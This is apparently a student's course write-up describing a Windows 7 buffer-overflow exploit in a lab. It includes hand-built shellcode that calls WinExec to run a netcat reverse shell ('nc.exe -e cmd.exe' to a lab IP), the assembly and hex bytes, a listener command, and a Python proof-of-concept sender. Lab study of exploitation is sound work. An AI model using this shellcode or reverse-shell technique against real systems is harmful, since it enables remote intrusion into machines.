 ```yaml
---
layout: post
title:  "An Exploit"
date:   2016-09-26  
comments:   true  
---
```


# Assignment 2, An Exploit

[TOC]

> You must develop and provide your ownshellcode to gain command line (DOS) access using a vulnerability you found from lab 1. Using tools to generate sehllcode or downloaded shellcode without detailed explanation of how the shellcode works is not acceptable. There are different options, for varying degrees of credit.

I've done some research on the internet before this assignment. Almost every blog/tutorial was based on that windows tcp bind 4444 shellcode. Since we are not allowed to copy shellcode from the internet, I would not choose *Option 2*. And because this task is too machine/os specified, packaging it into Metasploit is unnecessary(actually is I was left behind and had no time to learn ruby development). So I chose *Option 1*. Which is using static address and assuming `nc.exe` in the target machine at a known location. I devided the whole assignment into 2 section, address padding and shellcode. It comes below.

### 1. Address Padding

My idea is pretty straightforward. Place the shellcode at the beginning of the input. After shellcode padding "A"s until EIP. And place the beginning address of input in EIP to jump to shellcode and execute. The beginning address of input is already found in Assignment 1 which is `0012F908` . So, the input would be like:

```
shellcode + paddings + "\x08\xF9\x12\x00" + others
```

The "badcharacter" `\x00` is at the end of our "important stuff",  so we don't need to worry about that.



### 2. Shellcode

Our task is to execute `nc.exe` at target machine. So, I choose to use an API call named WinExec in kernel32.dll. Which is described as:

> Runs the specified application.
>
> ```c++
> UINT WINAPI WinExec(
>   _In_ LPCSTR lpCmdLine,
>   _In_ UINT   uCmdShow
> );
> ```

However Windows 7 has [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), I asume that API calls in kernel32.dll would not be affected by it. Because kernel32.dll has already been loaded before our experiments.  And by using `arwin.exe` we can find the pointer to WinExec:

![](http://ww1.sinaimg.cn/large/006y8lVagw1f8b3y9b2f5j313k06dadv.jpg)

Next, we need to encode our command into hex opcode. The command I used is:

```
C:\\Users\kaidi\Desktop\HW1\nc.exe -e cmd.exe 172.16.32.136 9999
```

`172.16.32.136` is the IP address of another VM which host a kali linux. In kali, I'll open a terminal with:

```
nc -lvp 9999
```

To encode the command string, I just simply use a ASCII to HEX tool online. And split the text into groups of 4 characters. After that, reverse the order of groups. Beside, we have to add `\x68`, which means `push` , in the front of each group as we are inputting characters. And we got:

```
"\x68\x39\x39\x39\x39"
"\x68\x31\x33\x36\x20"
"\x68\x2e\x33\x32\x2e"
"\x68\x32\x2e\x31\x36"
"\x68\x65\x20\x31\x37"
"\x68\x64\x2e\x65\x78"
"\x68\x65\x20\x63\x6d"
"\x68\x78\x65\x20\x2d"
"\x68\x6e\x63\x2e\x65"
"\x68\x57\x31\x5c\x5c"
"\x68\x70\x5c\x5c\x48"
"\x68\x73\x6b\x74\x6f"
"\x68\x5c\x5c\x44\x65"
"\x68\x61\x69\x64\x69"
"\x68\x73\x5c\x5c\x6b"
"\x68\x55\x73\x65\x72"
"\x68\x43\x3a\x5c\x5c"
```

Luckily, my command can be 4-character aligned. If they are not, you can simply add an extra space at the end.

My shellcode idea is also straightforward. 

```asm
XOR EAX,EAX          	|  Zero out EAX register
PUSH EAX             	|  Push EAX to have null-byte padding for "calc.exe"										
PUSH "C:\\Users\kaidi\Desktop\HW1\nc.exe -e cmd.exe 172.16.32.136 9999"												|  Push The ASCII string to the stack
MOV EAX,ESP          	|  Put a pointer to the ASCII string in EAX
PUSH 1               	|  Push uCmdShow parameter to the stack
PUSH EAX             	|  Push the pointer to lpCmdLine to the stack
MOV EBX,7C862AED     	|  Move the pointer to WinExec() into EBX
CALL EBX             	|  Call WinExec()

```

 

### Future Work

1. Our shellcode is executed at the target machine. In the future we can modified it to execute at a remote machine. Which would not be very hard, just use `nc.exe` to do the remote input should be fine. Using python script in this experiment only because it's easy to modify and convenient to use. 
2. Change the behavior of reverse shell. Make it general. No need to specify a static IP address. 

### Difficulties

- I was trying to find the address of `jmp esp` or `call esp` in the progrom to place it in EIP so I can execute my shellcode at ESP. But we are using Windows 7, there's no these kind of calls in Windows 7. If it has, they would be randomized address which can't not be used in our experiment.
- Have to pay attention of badcharacters like `\x00` . It would cause the end of line in your command.



### POC:

```python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 412

WinExec = (
"\x33\xc0"
"\x50"
"\x68\x39\x39\x39\x39"
"\x68\x31\x33\x36\x20"
"\x68\x2e\x33\x32\x2e"
"\x68\x32\x2e\x31\x36"
"\x68\x65\x20\x31\x37"
"\x68\x64\x2e\x65\x78"
"\x68\x65\x20\x63\x6d"
"\x68\x78\x65\x20\x2d"
"\x68\x6e\x63\x2e\x65"
"\x68\x57\x31\x5c\x5c"
"\x68\x70\x5c\x5c\x48"
"\x68\x73\x6b\x74\x6f"
"\x68\x5c\x5c\x44\x65"
"\x68\x61\x69\x64\x69"
"\x68\x73\x5c\x5c\x6b"
"\x68\x55\x73\x65\x72"
"\x68\x43\x3a\x5c\x5c"
"\x8B\xC4"
"\x6A\x01"
"\x50"
"\xBB\xFD\xE5\x1B\x76"
"\xFF\xD3")

while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall(WinExec + "A" * (length-len(WinExec)) + "\x08\xF9\x12\x00" + "C" * 2 + "D" * 10)
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 100
```



In the end, we first listen port 9999 at our kali VM. And we run the python script at the target machine.  

![](http://ww4.sinaimg.cn/large/006y8lVagw1f8b402b8nvj313c0g6n1j.jpg)

As we can see here, EIP address successfully points to the beginning of input which is `0012F908`. You probably noticed that value in EIP is not exactly matched with it in the stack. However, it worked. :D

![](http://ww1.sinaimg.cn/large/006y8lVagw1f8b3zgc5ybj30lu0i641u.jpg)

If we succeed, we can see the reverse shell running and the exploit worked.

![](http://ww2.sinaimg.cn/large/006y8lVagw1f8b403kxusj314w0r8q9a.jpg)

### Reference

> http://www.fuzzysecurity.com/tutorials/expDev/6.html
>
> http://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/
>
> http://buffered.io/posts/myftpd-exploit-on-windows-7/

